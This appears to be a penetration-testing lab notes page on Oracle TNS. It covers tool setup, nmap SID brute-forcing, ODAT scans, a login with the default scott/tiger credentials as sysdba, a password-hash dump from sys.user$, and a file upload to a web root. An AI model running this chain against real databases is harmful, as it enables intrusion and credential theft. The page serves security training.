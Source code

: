 # Oracle Transparent Network Substrate

## Footprinting The Service

### Tool Setup

{% code overflow="wrap" %}
```
sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>Before we can enumerate the TNS listener and interact with it, we need to download a few packages and tools</p></figcaption></figure>

### Nmap

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Nmap - SID Bruteforcing

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **ODAT**

{% code overflow="wrap" %}
```
./odat.py all -s 10.129.204.235
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p> the <code>odat.py</code> tool to perform a variety of scans like retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations etc.</p></figcaption></figure>

### **SQLplus - Log In**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>You can also attempt to append "as sysdba" for higher privileges</p></figcaption></figure>

If you come across the following error <mark style="color:red;">sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory</mark> execute the following command

{% code overflow="wrap" %}
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
{% endcode %}

### Oracle RDBMS - Interaction

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - Database Enumeration**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>Try using the valid account to log in as the System Database Admin (<code>sysdba</code>), giving higher privileges. This is possible when the user has the appropriate privileges typically granted by the database administrator.</p></figcaption></figure>

### **Oracle RDBMS - Extract Password Hashes**

{% code overflow="wrap" %}
```
select name, password from sys.user$;
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - File Upload**

| OS      | Path                 |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |

{% code overflow="wrap" %}
```
echo "Oracle File Upload Test" > testing.txt
```
{% endcode %}

{% code overflow="wrap" %}
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl -X GET http://10.129.204.235/testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

